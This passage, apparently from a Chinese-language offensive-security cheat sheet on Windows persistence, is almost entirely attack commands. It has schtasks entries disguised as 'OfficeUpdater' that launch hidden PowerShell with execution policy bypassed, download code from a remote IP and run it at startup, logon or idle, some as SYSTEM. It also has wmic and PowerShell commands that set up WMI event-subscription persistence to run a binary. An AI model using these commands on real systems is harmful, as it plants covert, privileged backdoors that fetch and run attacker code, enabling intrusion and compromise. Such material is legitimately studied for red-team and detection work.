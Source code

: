 ```powershell
 
##(X86) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X86) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
 
##(X64) - On User Login
schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
 
##(X64) - On System Start
schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
 
##(X64) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```

### Windows 管理工具事件订阅

> 敌手可以使用Windows管理工具（WMI）来安装事件过滤器、提供者、消费者和绑定，在定义的事件发生时执行代码。敌手可能会利用WMI的功能订阅事件，并在该事件发生时执行任意代码，从而在系统上实现持久化。


* **__EventFilter**：触发器（新进程、登录失败等）
* **EventConsumer**：执行动作（执行有效载荷等）
* **__FilterToConsumerBinding**：绑定过滤器和消费者类

```ps1
# 使用CMD：在Windows启动后60秒执行二进制文件
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="WMIPersist", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="WMIPersist", ExecutablePath="C:\Windows\System32\binary.exe",CommandLineTemplate="C:\Windows\System32\binary.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WMIPersist\"", Consumer="CommandLineEventConsumer.Name=\"WMIPersist\""
# 移除它
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='WMIPersist'" | Remove-WmiObject -Verbose

# 使用Powershell（部署）
$FilterArgs = @{name='WMIPersist'; EventNameSpace='root\CimV2'; QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 60 AND TargetInstance.SystemUpTime < 90"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs
$ConsumerArgs = @{name='WMIPersist'; CommandLineTemplate="$($Env:SystemRoot)\System32\binary.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
$FilterToConsumerArgs = @{Filter = [Ref] $Filter; Consumer = [Ref] $Consumer;}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
# 使用Powershell（移除）
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'WMIPersist'"
```